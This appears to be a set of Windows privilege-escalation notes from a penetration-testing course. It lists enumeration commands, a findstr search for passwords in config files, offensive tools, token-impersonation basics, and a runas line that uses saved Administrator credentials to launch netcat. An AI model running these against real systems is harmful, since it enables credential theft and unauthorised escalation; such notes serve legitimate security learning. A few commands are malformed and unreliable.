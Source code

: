 ### Windows Privesc TCM

## System Enumeration

`systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"` 

**Pull up patches**

`wmic qfe`

wmic qfe get Caption,Description,HotFixID,InstalledOn

**List all drives**

`wmic logicaldisk`

wmic logicaldisk get Caption,description,providername

## User E numeration

`whoami` 

**Find user privileges**

`whoami /priv`

**Groups you belong to**

`whoami /groups`

**Find users on this machine**

`net user`

**See who is part of a group**

`net localgroup administrators`

## Network Enumeration

`ipconfig && ipconfig /all`

**Drop arp table**

`arp -a`

**Read routing table**

`route print`

**See ports**

`netstat -nao`

## Password Hunting

**Search current directory**

`findstr /si password *.txt *.ini *.config`

## A/V and Firewall Enumeration

**Check windows defender**

`sc query windefend`

**Look for A/V**

`sc queryex type= service`

**Check firewall state**

`netsh advfirewall dump`

**Check firewall rules**

`net firewall show config`

## Automated Enumeration Tools
| Exectuables   | PowerShell    | Other | 
| ------------- | ------------- | ------------- |
| winPEAS.exe   | Sherlock.ps1  | windows-exploit-suggest.py |
| Seatbelt.exe  | PowerUp.ps1 | Exploit Suggester (Metasploit) |
| Watson.exe | jaws-enum.ps1 | |
|SharpUp.exe | | |

**Exploit Suggester**
`run post/multi/recon/local_exploit_suggester`

**Windows Linux Subsystem**
Can be used to escalate privileges

## Token Impersonation

What are tokens?
Tokens are temp keys taht allow you access to a system/network without having to provide creds each time.

Two types:
* Delegate - Create for logging into a machine or using Remote Desktop
* Impersonate - "non-interactive" such as attaching a network drive or domain logon script

## RunAs

`C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Users\Public\nc.exe`


